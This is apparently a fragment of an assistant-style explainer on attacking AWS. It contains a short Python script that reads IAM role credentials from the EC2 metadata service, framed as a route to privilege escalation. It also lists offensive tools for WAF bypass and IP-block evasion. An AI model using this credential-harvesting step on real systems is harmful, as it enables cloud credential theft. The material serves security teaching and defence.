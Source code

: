 
### Example Exploitation

Here’s an example of exploiting the EC2 metadata service to retrieve IAM credentials:

```python
import requests

# Craft a request to the EC2 metadata service
url = "http://169.254.169.254/latest/meta-data/iam/security-credentials/your-iam-role"

# Send the request
response = requests.get(url)

# Print the response (IAM credentials)
print(response.text)
```

This script fetches the IAM credentials associated with the IAM role, which can then be used to escalate privileges or access other resources.

---

### Tools and Resources

- **AWS-Offensive-Exploitation**: A GitHub repository with various techniques, tools, and frameworks for offensive exploitation of AWS infrastructure.
- **Sysdig Threat Research Team**: Provides insights and techniques for bypassing AWS WAF.
- **Rhino Security Labs**: Offers tools like IP Rotate Burp Extension for bypassing IP-based blocking.

These techniques and tools can help in understanding and mitigating AWS-specific vulnerabilities. If you have any specific scenarios or further questions, feel free to ask!
